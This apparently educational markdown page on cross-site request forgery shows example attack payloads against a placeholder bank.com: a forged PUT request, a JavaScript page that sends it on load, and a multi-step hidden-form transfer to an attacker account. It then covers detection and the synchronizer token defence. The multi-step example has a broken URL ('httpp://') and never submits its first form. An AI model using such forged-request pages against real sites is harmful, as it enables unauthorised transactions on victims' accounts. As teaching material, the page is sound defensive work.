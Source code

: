 ## Other HTTP methods
Modern web application APIs frequently use other HTTP methods, such as **PUT** or **DELETE**. Let's assume the vulnerable bank uses **PUT** that takes a **JSON** block as an argument: 
```http
PUT http://bank.com/transfer.do HTTP/1.1

{ "acct":"PERPRETOR", "amount":100 }
```
Such requests can be executed with JavaScript embedded into an exploit page: 
```javascript
<script>
  function put() {
    var x = new XMLHttpRequest();
    x.open("PUT","http://bank.com/transfer.do",true);
    x.setRequestHeader("Content-Type", "application/json"); 
    x.send(JSON.stringify({"acct":"PERPRETOR", "amount":100})); 
  }
</script>
<body onload="put()">
```
## Multi-step scenario 
Here let's assume that we have the victime is in a landing page(as before) and the action he has done need him to confirm. Then this confirmation or not will be send to the server.
In this kind of situation, multi-step CSRF is used.

```html
<form name="transferForm" method="POST" action="http://bank.com/transfer.do">
    <input type="hidden" name="acct" value="PERPRETOR" />
    <input type="hidden" name="amount" value="1000" />
</form>

<form name="confirmForm" method="POST" action="httpp://bank.com/transfer.do">
    <input type="hidden" name="confirmation" value="yes"/>
</form>

<script type="text/javascript">
    window.setTimeout(doFormSubmit, 5000);
    function doFormSubmit()
    {
        document.confirmForm.submit();
    }
</script>
```


## Presence detection (post-incident)
Detection of **CSRF** flaws is made via **penetration testing** or **code analysis**. 

# Countermeasures guidelines
## Server-side
### Synchronizer token pattern
**S**ynchronizer **T**oken **P**attern (**STP**) is a technique where a `token, secret and unique value for each request`, is embedded by the web application in all HTML forms and verified on the server side. The token may be generated by any method that ensures unpredictability and uniqueness (e.g. using a hash chain of random seed). The attacker is thus unable to place a correct token in their requests to authenticate them.
Example of **STP** set by Django in a HTML form:
```html
<input type="hidden" name="csrfmiddlewaretoken" value="KbyUmhTLMpYj7CD2di7JKP1P3qmLlkPt" />
```